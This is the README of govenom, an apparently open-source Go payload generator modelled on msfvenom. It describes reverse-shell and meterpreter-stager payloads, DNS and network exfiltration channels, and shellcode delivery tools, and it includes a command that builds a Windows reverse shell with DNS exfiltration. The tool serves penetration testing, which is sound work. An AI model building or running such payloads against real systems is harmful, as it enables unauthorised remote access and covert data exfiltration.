 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms.

## Payloads

Currently, three payloads are supported:

* **rsh:** A simple reverse shell. It selects one of the most common
 shells binaries and makes it available via TCP or UDPconnection.
* **xrsh:** An extended robust reverse shell. A simple heuristic
determines the most suitable shell executable, taking shells that
are installed but not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A shellcode stager that is compatible with Metasploits
`exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
It first reads a 4 Byte shellcode length and then the shellcode
itself from a TCP connection and executes it. Currently, this is
only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection
that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
go run ./govenom.go payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
go run ./govenom.go tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with logging capabilities
* Embedding payload source code into the `govenom` binary
* Windows support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
